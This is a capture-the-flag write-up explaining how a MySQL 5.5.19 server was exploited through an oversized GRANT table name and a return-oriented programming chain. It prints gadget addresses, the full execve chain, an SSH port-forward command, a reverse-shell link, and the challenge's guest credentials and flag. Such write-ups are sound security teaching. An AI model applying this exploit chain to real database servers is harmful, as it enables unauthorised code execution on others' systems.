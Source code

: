 # HackingWeek CTF 2015: Exploit 6

**Category:** exploit |
**Points:** 7224 |
**Solves:** 3 |
**Description:**

> Connectez-vous en tant que <code>guest</code> (mot de passe: <code>shu1eKoo</code>) sur la machine <code>37.187.22.21</code>.<br>
> Vous trouverez la clef de validation cachée dans le fichier <code>/home/exploit06/.secret</code>.
>
> ```
> $> ssh guest@37.187.22.21
> ```

___

## Write-up

This task is an exploit task.  
We are given a shell on a remote server.  
The source code is also given. It is MySQL version 5.5.19.  
This version is vulnerable to several CVE.
(like... [a lot](http://www.cvedetails.com/vulnerability-list.php?vendor_id=93&product_id=21801&version_id=120498).)

There are two interesting PoC by kingcope :
- [CVE-2012-5611](http://www.cvedetails.com/cve/CVE-2012-5611/)
- [CVE-2012-5612](http://www.cvedetails.com/cve/CVE-2012-5612/).

Everyone started working on the heap overflow, because the account we had did
not have GRANT rights.  
It seems to me that the heap overflow cannot be exploited.

Even though we did not have GRANT rights, it was possible to trigger a
segfault with a large string such as :
```SQL
GRANT ALL ON `AAA...`.* TO yolo`
```

The binary is in remote, with non-exec stack, so ret2libc will work,
but is not possible because of the limitations of this exploit : table names
are in UTF-8, which means you get an error when you send wrong UTF-8
characters. (system is at 0xb7ea8c30 which is not valid.)

However, there is still a way to pwn it : return-oriented programming.  
ROP, works just like ret2libc. In fact, I see it as an evolution of ret2libc
attacks : instead of jumping to functions, you jump to part of code before
the end of a function.

Let's take an example :
```C
int foo(int x)
{
	int y = x;

	y *= 1337;
	y += 32;
	
	return y;
}
```
This function obviously returns `y = 1337 * x + 32`.

It is possible for us to jump in the middle of the function, right before the y += 32 line. It will increase one of our register by 32, and return it.
This is what we call a gadget, and ROP is putting together several gadgets to "recode" a shellcode with already-existing instructions.
Note that it is also possible to find gadgets that were not intended by the programmer : you cannot write "saltwater" without writing "twat".

Finding every gadgets by hand would be REALLY long, that's why there are software to make this task quicker.
I used the excellent rp++ by 0vercl0k to get every gadgets.

> Trying to open 'mysql-5.5.19-linux2.6-i686/bin/mysqld'..
> Loading ELF information..
> FileFormat: Elf, Arch: Ia32
> Using the Nasm syntax..
>
> Wait a few seconds, rp++ is looking for gadgets..
> in PHDR
> 0 found.
>
> in LOAD
> 679776 found.
>
> A total of 679776 gadgets found.

There is a lot of gadgets, but unfortunately, most of them were useless,
because MySQL only allows UTF-8 table names.
It means that we either have to be EXTREMLY lucky, or simply drop every
gadgets where one of the address's byte & 0x80 != 0.  
I picked the later.

We tried to call the execve syscall, with a binary from /tmp.  
Let's call it "hax" to get an 8-letters path (2 * 32 bits)  
> Call a syscall : INT 0x80  
> eax = syscall number (Here 0x0B for execve)  
> ebx = 1st argument (here "/tmp/hax")  
> ecx = 2nd argument (here {"/bin/hax", NULL})  
> edx = 3rd argument (here {NULL})  

By cherry-picking gadgets, we found some interesting gadgets :
```ASM
0x08052960: ret  ;  (1 found)
0x082a1579: pop eax ; ret  ;  (1 found)
0x08442908: xchg eax, ebp ; ret  ;  (1 found)
0x087f052d: xchg eax, ebx ; ret  ;  (1 found)
0x084e3456: xchg eax, ecx ; ret  ;  (1 found)
0x08240d14: xchg eax, edi ; ret  ;  (1 found)
0x084e3062: xchg eax, edx ; ret  ;  (1 found)
0x08190c2a: mov dword [eax], edx ; pop ebp ; ret  ;  (1 found)
0x0838733a: add eax, 0x01 ; ret  ;  (1 found)
0x0838484f: int 0x80 ;  (1 found)
```

With those gadgets, we can do almost anything we want :
first, pop eax which will pop next stack's value to eax, then xchg with an
other register to load "any" value to a register.  
We also needed a gadget to write a value to an address, to store our
"/tmp/hax" string.

Our sequence is :
```
popeax,   "/tmp"
xchgedx,
popeax,   0x09103030, // write it to 0x09103030
writeeax, 0x09103034, // pops ebp

// Write /hax to 0x09103034
popeax,   "/hax"
xchgedx,
xchgebp,
writeeax, 0x0910303C,

// Write address of "/tmp/hax" to 0x0910303C
popeax,   0x09103030,
xchgedx,
xchgebp,
writeeax, 0x09103040,

/*
 x86 syscalls :
 eax = syscall # (0x0B == execve)
 ebx = param 1
 ecx = param 2
 edx = param 3
*/

popeax, 0x09103030,
xchgebx,            // ebx = "/tmp/hax"

popeax, 0x0910303C, 
xchgecx,            // ecx = {"/tmp/hax", NULL}

popeax, 0x09103040, // pointer to NULL
xchgedx,            // envp = {NULL}

xchgedi, // edi seems to be always 0. Who care if it's true ? It's a CTF !
// 0 + 11 * 1
addeax,
addeax,
addeax,
addeax,
addeax,
addeax,
addeax,
addeax,
addeax,
addeax,
addeax,

syscall
```

Once the exploit works, there are still a few things to settle, before being
able to get the flag :  
* port 3307 is filtered by a firewall.
  * Use SSH to forward a port :
  * ssh -L 54321:127.0.0.1:3342 guest@37.187.22.21
* What do we put in hax ?
  * What about a [reverse shell](shell.c) ? :)

> `whoami; cat ../../.secret`  
> exploit06  
> Ahpheod2ij

[Final exploit (PHP)](poc.php)  
**Flag**: Ahpheod2ij

PS: At first, we wanted to spawn a reverse shell, but heh, at least, it worked,
right ? :P 
